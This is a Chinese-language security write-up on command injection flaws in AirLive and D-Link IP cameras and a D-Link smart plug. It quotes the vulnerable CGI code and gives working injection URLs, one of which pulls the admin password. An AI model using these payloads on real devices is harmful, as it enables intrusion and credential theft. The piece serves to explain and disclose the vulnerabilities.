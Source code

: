 ### AirLive Command Injection Pwned

所以我们完全可以在传入几个受影响的参数后注入;或者&&的方式来注入我们的恶意命令

```
/cgi_test.cgi?write_pid&;id&
/cgi_test.cgi?write_pid&&&id&

```

![enter image description here](http://drops.javaweb.org/uploads/images/4269599ee7417794a0ef2301f823ce3c60deee5d.jpg)

### D-link Command Injection(CVE-2013-1599)

这是个影响很大的洞,至今依旧影响很多基于D-link固件二次开发的摄像头(尤其国内厂商)

在`/var/www/cgi-bin/`中,`rtpd.cgi`文件成为了猪队友

```
echo "$QUERY_STRING" | grep -vq ' ' || die "query string cannot contain spaces."
. $conf > /dev/null 2> /dev/null
eval "$(echo $QUERY_STRING | sed -e 's/&/ /g')"
case $action in
start)
$script start
;;
stop)
$script stop
;;
...

eval "$(echo $QUERY_STRING | sed -e 's/&/ /g')"

```

代码本意是要在?后传入action控制设备状态,奈何开发暴露智商，`$QUERY_STRING`取问号后的值将`&`替换后`eval`执行。。。？传值完全可控

### D-link Command Injection PWNed

```
/cgi-bin/rtpd.cgi?id
/cgi-bin/rtpd.cgi?echo&AdminPasswd_ss|tdb&get&HTTPAccount

```

![enter image description here](http://drops.javaweb.org/uploads/images/cdc697261694bd21bc3f86c43466293e99a11562.jpg)

### D-Link DSP-W110 Smart Plug

其实,掌握这个技能是可以衍生到其他大部分智能设备的,比如6月我发现的`dlink`智能插座漏洞(然而被捂烂)

漏洞成因比较简单,`http`请求中`cookie`的内容未经过任何处理,直接传递给了`sprintf()`调用并为了验证身份入库查询,因此形成了一个`sqli`,然而`sql`查询直接传给了`popen()`还造成了命令执行

`request.c`中将`cookie`字段完整的负值给了`hnap_cookie`,之后在`mod_hnap.c`被被`getHNAPCookie`函数处理直接被`sprintf()`拼接成了`sql`语句并直接查询,造成`sqli`
